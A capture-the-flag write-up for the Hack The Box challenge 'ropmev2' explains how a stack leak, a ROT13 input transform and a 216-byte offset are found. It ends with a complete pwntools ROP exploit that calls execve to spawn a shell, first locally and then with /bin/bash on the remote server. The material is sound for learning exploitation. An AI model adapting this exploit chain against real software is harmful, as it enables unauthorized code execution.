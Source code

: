```yaml
---
layout: single
title: "HTB ropmev2 Writeup"
header:
  teaser: /assets/images/content/htb/ropmev2/teaser.png
excerpt: "ropmev2 was a fun binary exploitation challenge by [r4j](https://twitter.com/r4j0x00) in which we needed to rop our way through some twists to be able to build a successful exploit."
---
```


ropmev2 was a fun binary exploitation challenge by [r4j](https://twitter.com/r4j0x00) in which we needed to rop our way through some twists to be able to build a successful exploit.

We start by looking at the surface aspects of the binary. It is a 64-bit binary and `checksec` only reveals the NX protection. 

We use r2 to reverse it and figure out the execution flow. Basically everything is handled in the main function, so there's not much to say here.

![](/assets/images/content/htb/ropmev2/r2.png)

We ses printf prints the "welcoming" string: `"Please dont hack me"`, then there's a call to `read` that reads 500 bytes from stdin. Right after that there's an interesting call to `strcmp` that compares the entered string with `"DEBUG"` and then, if it is equal, printf gives us what at first glance seems to be a pointer loaded from a local variable. We can check out what it actually is by running the binary, inputting `"DEBUG"` and then analyzing with gdb.

We can break right after the call to `printf`: at `0x004011ee`. We can see that the binary outputted a value that seems to be the beginning of our stack. 

![](/assets/images/content/htb/ropmev2/gdb.png)

This leaked value could potentially be useful if we want to skip writing a `"/bin/sh"` to memory because instead we can simply use a stack address.

We run the binary for a quick test to see if what we input can modify the execution flow at all and we immediately notice something weird. If we input say `"A"*512` we cause a segmentation fault, but every overflowed register points to a string of all `"N"s`. These are not the `"A"s` we entered! There is clearly something happening in the background here.
At the end of `main` there was a call to an unusual function: `sub.strlen_238`. Taking a quick look at it, it seems this is the function causing this weird behavior. It can be hard to understand what this function does only reading asm code, so we'll open it in Ghidra to hopefully get some useful pseudocode :)

Once in Ghidra, we find the function and take a look at its decompilation:

![](/assets/images/content/htb/ropmev2/ghidra.png)

It seems all the function does is it subtracts `0xd` to every entered character `a-z;A-Z`. Hmmm... `0xd=13`, this function applies ROT13 to our input!

That figured out, using cyclic we can easily find the offset at which our input starts modifying the execution flow. We have to remember to ROT13 it before we check for an offset. We originally got `"rnnpsnnp"` overflowing into `RSP`, so after aplying the conversion we can check for an offset with `cyclic -l eaacfaac`:

![](/assets/images/content/htb/ropmev2/cyclic.png)

We have our offset at `216`. From here we can begin focusing into building our rop chain.

Looking at the binary more closely, we can find all the gadgets we nith + a syscall! This means the challenge is practically solved. We will load `59` into `RAX` for an execve syscall, load `"/bin/sh"` into `RDI` as our argument, and then zero out `RSI` and `RDX` to avoid any potential problems. For our pointer to the `"/bin/sh"` string, we can simply calculate the difference between the leaked value by our `"DEBUG"` input to the address were our second input gets stored. From there we can simply begin our payload with `"/bin/sh"`, put a bunch of junk in front of it to fill the offset until we overwrite `RSP`, and begin our rop chain. 

The final exploit looks like this (remember ROT13, we have to convert our `"/bin/sh"` to `"/ova/fu"` so that it gets converted back to `"/bin/sh"` by the binary):

```python
#!/usr/bin/python
from pwn import *

p = process("./ropmev2")

junk = "/ova/fu\x00".ljust(216, "A")

# Addresses
syscall = p64(0x0000000000401168)
pop_rax = p64(0x0000000000401162)
pop_rdi = p64(0x000000000040142b)
pop_rsi_r15 = p64(0x0000000000401429)
pop_rdx_r13 = p64(0x0000000000401164)

p.recvuntil("me")
p.sendline("DEBUG")
p.recvline()
leak = str(p.recvline())[-15:]
log.info("Leaked address: " + leak)

binsh = int(leak, 16) - 0xe0

payload = (junk
        + pop_rdi
        + p64(binsh)
        + pop_rax
        + p64(0x3b)
        + pop_rsi_r15
        + p64(0x00)*2
        + pop_rdx_r13
        + p64(0x00)*2
        + syscall)

p.recvuntil("me")
p.sendline(payload)

p.interactive()
```

And it gives us a local shell!

Now, the remote instance of the binary running in HTB servers had another twist: *there was no /bin/sh on the server*. When I was first doing the challenge I did struggle a lot with this, but it truly has a simple solution to it: all we need to do is change our `"/bin/sh"` (`"/ova/fu"`) to `"/bin/bash"` (`"/ova/onfu"`). That will give us a remote shell get us the flag for the challenge.

Hopefully this writeup was enjoyable and simple to understand, if you have any questions don't hesitate to contact me (c4e) on any of my socials or leave a comment below.
